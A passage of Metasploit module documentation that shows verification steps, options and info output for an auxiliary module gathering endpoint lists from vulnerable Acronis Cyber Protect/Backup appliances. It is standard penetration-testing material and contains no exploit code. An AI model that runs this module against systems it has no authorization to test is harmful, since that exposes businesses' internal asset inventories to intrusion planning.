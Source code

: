 You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `auxiliary/gather/acronis_cyber_protect_machine_info_disclosure`
- [ ] `set rhosts <ip-target>`
- [ ] `run`
- [ ] you should get a list of all endpoints that are registered at the appliance.

## Options
### PRTSCRN
You can use this option to turn on or off the print output of the gather info to the console (default true).
By default all information will be stored in a file in `json` format at the loot directory.
You can use this file in combination with `jq` for offline queries and processing.

## Scenarios
```msf
msf6 auxiliary(gather/acronis_cyber_protect_machine_info_disclosure) > info

       Name: Acronis Cyber Protect/Backup machine info disclosure
     Module: auxiliary/gather/acronis_cyber_protect_machine_info_disclosure
    License: Metasploit Framework License (BSD)
       Rank: Excellent

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Sandro Tolksdorf of usd AG.

Module side effects:
 artifacts-on-disk
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PRTSCRN    true             no        Print output to console
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     192.168.201.6    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                        metasploit.html
  RPORT      9877             yes       The target port (TCP)
  SSL        true             no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The URI of the vulnerable Acronis Cyber Protect/Backup instance
  VHOST                       no        HTTP server virtual host

Description:
  Acronis Cyber Protect or Backup is an enterprise backup/recovery solution for all,
  compute, storage and application resources. Businesses and Service Providers are using it
  to protect and backup all IT assets in their IT environment.
```